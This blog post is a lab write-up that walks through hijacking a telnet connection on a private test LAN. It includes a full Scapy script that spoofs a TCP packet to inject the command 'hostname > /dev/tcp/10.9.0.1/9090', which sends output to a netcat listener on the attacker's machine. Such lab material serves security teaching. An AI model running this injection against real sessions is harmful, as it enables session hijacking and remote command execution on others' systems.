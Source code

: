 +++
title = "TCP Attack Lab 2 - Hijack"
date = "2023-04-30"
description = "Hijacking a TCP connection."

tags = ["security","writeup",]
+++


We hijack a TCP connection.

In the first part of this series, we conducted a TCP Reset attack on a `telnet` connection between two users on the same LAN as a malicious actor.

In this second installment, we will hijack the `telnet` connection and execute an arbitrary command.


# Setup

The set up is the same as the [previous post](/blog/posts/tcp-attack-lab/0-overview).

 
# Hijacking a `telnet` Connection

Following these steps will hijack a TCP connection between User 1 as the client and User 2 as the server. We will have the server execute an arbitrary command on our behalf.

First, I open Wireshark and monitor the LAN interface. I select the bridge interface starting with "br-". The characters following may change if you stop and start the containers in a separate occurrence.

Then, I use `telnet` to connect from User 1 to User 2.

!["wireshark initial screen capture"](/blog/images/tcp-hijacking/wireshark-init.png)

Select the bridge interface.

---

Logging in to the `telnet` server (Remember: User 2) from the client generates network traffic that we will use to construct the hijack packet. 

!["telnet connection"](/blog/images/tcp-hijacking/telnet-init.png)

The telnet connection.

---

The last TCP packet sent from User 1 to User 2 will inform the source port, sequence, and acknowledgement numbers used in the hijack packet we will spoof from the attacker to the server.

!["wireshark screen capture"](/blog/images/tcp-hijacking/wireshark-data.png)

Using Wireshark to construct our hijack packet.

---


## Brief: `netcat`

In order to see the output of the command, we will set up a TCP server using `netcat`. 

!["netcat init"](/blog/images/tcp-hijacking/netcat-init.png)

Setting up a TCP server using netcat to see the output of our hijack attack.

---


# Running the exploit

The following code will send our hijack packet:

```python
import argparse
from scapy.all import *

def spoof_hijack_packet(src_port, seq_num, ack_num):
	user1_ip = "10.9.0.6"
	user2_ip = "10.9.0.7"

	user1_port = src_port
	user2_port = 23

	ip = IP(src=user1_ip, dst=user2_ip)
	tcp = TCP(sport=user1_port, dport=user2_port, flags="A", seq=seq_num, ack=ack_num)
	data = "\r hostname > /dev/tcp/10.9.0.1/9090 \r"

	pkt = ip/tcp/data

	print("SENDING HIJACK PACKET........")
	send(pkt)

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("-p", "--src_port", type=int, help="source port", required=True)
	parser.add_argument("-s", "--seq", type=int, help="last sequence number", required=True)
	parser.add_argument("-a", "--ack", type=int, help="last acknowledgement number", required=True)

	args = parser.parse_args()

	spoof_hijack_packet(args.src_port, args.seq, args.ack)
```

For convenience, I designed the program to take the source port number, sequence number, and acknowledgement number as arguments. I invoke it as follows with the data gathered from Wireshark.

!["attack"](/blog/images/tcp-hijacking/python-attack.png)

Running the attack program with arguments for source port, sequence, and acknowledgement numbers.

---

The `netcat` TCP server we established on port 9090 displays the output from the `hostname` command run on the server. 

!["netcat after"](/blog/images/tcp-hijacking/netcat-after.png)

The TCP server displays the hostname of the server.

---

Which we can verify matches User 2's hostname. 

!["result"](/blog/images/tcp-hijacking/hostname.png)

Hostname of the telnet server, User 2

---

If you were to go back to the `telnet` connection, we see that the connection no longer takes input. This is because the machines have detected the funny business from our spoofed packet.


# That's it!

We explored the TCP protocol in greater depth, hijacking a TCP connection between two users on the same LAN as the attacker and executing an arbitrary command.

In the final installment of this series, we will go a step further and execute a reverse shell using the TCP hijacking technique presented here.


### _Updated: April 30, 2023_
